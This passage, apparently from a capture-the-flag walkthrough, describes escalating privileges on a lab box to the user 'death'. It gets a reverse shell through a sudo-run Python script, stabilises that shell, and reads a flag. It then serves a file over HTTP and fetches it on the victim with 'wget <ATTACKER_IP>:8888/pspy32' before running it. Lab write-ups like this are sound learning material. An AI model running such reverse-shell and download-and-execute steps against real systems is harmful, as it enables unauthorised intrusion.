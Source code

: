 Next if we run the `getDreams.py` script using `sudo` we should get a reverse shell back as the user `death`:

```sh
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

Notice the last entry is our `curl` command downloading the script, when the `% Total` reaches `100` the download has been completed:

![a0d617ef204353be11b0f2e2919709df.png](/resources/eedf6dc99892415f9ff39fd099f49550.png)

Checking our listener on port 4445 and running `whoami`:

![afab4f3761f5deec5d07728a9436d0c3.png](/resources/ae2163721baa4ad6a71951200c23ddfb.png)

Use the same steps as earlier to stabilize the shell:

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` ... Use Python to spawn a stable shell
2. `CTRL + Z` ... Backgrounds the current shell
3. `stty raw -echo;fg` ... Fixes echoing and foregrounds the shell
4. `export TERM=xterm-256color` ... Sets terminal to xterm

To get the flag, we have to change our directory since we are still in `/home/lucien`, then list the files and `cat` the flag:

```sh
cd /home/death
ls -lah
cat death_flag.txt
```

![acab42d89efea10a4d229c4e663502f6.png](/resources/1f6583e1a7b344eda07fa3016b7eac6d.png)

### morpheus\@dreaming

Also in the `/home/death/` directory, we can see the `getDreams.py` source code and there is a MySQL password for `death`, which we can use for SSH access if we need to.

From here, I downloaded [pspy32](https://github.com/DominicBreuker/pspy/releases) onto the victim machine to see what processes were running.

After downloading pspy32 on the attacking machine, if the Python HTTP server is still running from earlier, we can place it in that same directory, else we can start the HTTP server by running:

```sh
python3 -m http.server 8888
```

On the victim machine, as the user `death` we use `wget` to download the file:

```sh
wget <ATTACKER_IP>:8888/pspy32
```

Then give the binary execute permissions with `chmod +x` then run it:

```sh
chmod +x pspy32
./pspy32
```
